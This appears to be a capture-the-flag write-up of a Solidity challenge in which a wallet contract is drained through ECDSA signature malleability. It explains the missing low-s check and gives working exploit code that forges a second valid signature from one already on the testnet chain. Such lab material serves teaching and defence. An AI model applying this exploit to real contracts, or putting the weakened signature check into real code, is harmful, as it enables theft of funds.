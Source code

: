 # Solidity challenge EtherWallet.sol

## The objective

The task is simple: Steal all ether from the contract.

## Overview

`EtherWallet.sol` is a small wallet contract, anyone can deposit ether and anyone with a valid signature can withdraw. There are only two state variables and two functions, `withdraw(bytes memory signature)` and `transferOwnership(address newOwner)`. `transferOwnership` is copied from OpenZeppelins Ownable contract.

Function `withdraw` expects a signature and checks if its signed by the owner of the contract:

```solidity
function withdraw(bytes memory signature) external {
  require(!usedSignatures[signature], "Signature already used!");
  require(
    ECDSA.recover(keccak256("\x19Ethereum Signed Message:\n32"), signature) ==
      owner,
    "No permission!"
  );
  usedSignatures[signature] = true;

  uint256 balance = address(this).balance;
  payable(msg.sender).transfer(balance);

  emit Withdraw(msg.sender, balance);
}

```

It stores all used signatures in a mapping, preventing signature replay attacks:

```solidity
mapping(bytes => bool) public usedSignatures;
```

## Vulnerability

The code of `EtherWallet.sol` itself is fine, there are no hidden vulnerabilites, so we have to dig deeper. `EtherWallet.sol` uses library `ECDSA` for its signature verificiation, specifically function `recover`:

```solidity
function recover(
  bytes32 hash,
  uint8 v,
  bytes32 r,
  bytes32 s
) internal pure returns (address) {
  // If the signature is valid, return the signer address
  address signer = ecrecover(hash, v, r, s);
  require(signer != address(0), "ECDSA: invalid signature");

  return signer;
}

```

To hack this contract, one has to understand how ECDSA signatures work: Ethereum signatures consists of three integers: `v`, `r` and `s`.

ECDSA uses elliptic curves, which are **symmetric over the x-axis**: `r` is related to the x coordinate of the elliptic curve, while `s` is related to
the y coordinate.

==> That means if `(r, s)` is a valid signature, `(r, n - s)` is valid too:

```
|| 0 1 2 s0 4 | 5 s1 7 8 n ||  <== s0=3 and s1=6 are both valid
```

We use `v` to find out which point to use, in Ethereum its either `0x1b` (27) for `s < n/2`, or `0x1c` (28) for `s > n/2`. For the secp256k1 curve used in Ethereum (and Bitcoin) `n` equals `0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141`.

Battle tested contracts, like OpenZeppelin's ECDSA library, enforce that `s` is in the lower half, preventing the Signature malleability exploit. However, the built-in Ethereum function `ecrecover(hash, v, r, s)` does not. So, if theres an existing tx on the blockchain with values `v`, `r` and `s` we can simply compute the other valid `s` and adjust `v` accordingly, e.g. if `s < n/2`, compute `s_new = n - s` and change `v` from 27 to 28.

The `ECDSA` library used in this contract is similiar to OpenZeppelins library, but the important part, where it is enforced that `s` must be in the lower half, is removed.

## Exploit

Contract `EtherWallet` was deployed to the Goerli test network, see [Etherscan](https://goerli.etherscan.io/address/0x4b90946ab87bf6e1ca1f26b2af2897445f48f877).

After deployment, `withdraw` was called with signature `0x53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c`.

To exploit the vulnerability, we first have to extract values `v`, `r` and `s` from the signature:

```solidity
(r, s, v) = _getSignature(
    hex"53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c"
);

function _getSignature(bytes memory signature)
    internal
    pure
    returns (
        bytes32,
        bytes32,
        uint8
    )
{
    bytes32 r;
    bytes32 s;
    uint8 v;
    // ecrecover takes the signature parameters, and the only way to get them
    // currently is to use assembly.
    /// @solidity memory-safe-assembly
    assembly {
        r := mload(add(signature, 0x20))
        s := mload(add(signature, 0x40))
        v := byte(0, mload(add(signature, 0x60)))
    }
    return (r, s, v);
}
```

Then do the necessary calculations:

```solidity
if (v == 27) {
    bytes32 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
    sNew = bytes32(uint256(n) - uint256(s));

    // set v to 28 since we now use s in the upper half
    vNew = 28;
} else {
    bytes32 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
    sNew = bytes32(uint256(n) - uint256(s));

    // set v to 27 since we now use s in the lower half
    vNew = 27;
}
```

Equipped with our new signature, we just have to call `withdraw` again:

```solidity
bytes memory newSignature = abi.encodePacked(r, sNew, vNew);
(bool success, bytes memory ret) = address(etherwallet).call(
    abi.encodeWithSignature("withdraw(bytes)", newSignature)
);
```

See [ExploitEtherWallet.sol](../script/exploits/ExploitEtherWallet.sol) for full code.

## Further information

- [EtherWallet.t.sol](../test/EtherWallet.t.sol) test script setting up and exploiting the contract
- [More info](http://coders-errand.com/malleability-ecdsa-signatures/) about signature malleability
- [A closer look at Ethereum signatures](https://hackernoon.com/a-closer-look-at-ethereum-signatures-5784c14abecc)
- [Math behind elliptic curve cryptography](https://hackernoon.com/what-is-the-math-behind-elliptic-curve-cryptography-f61b25253da3)
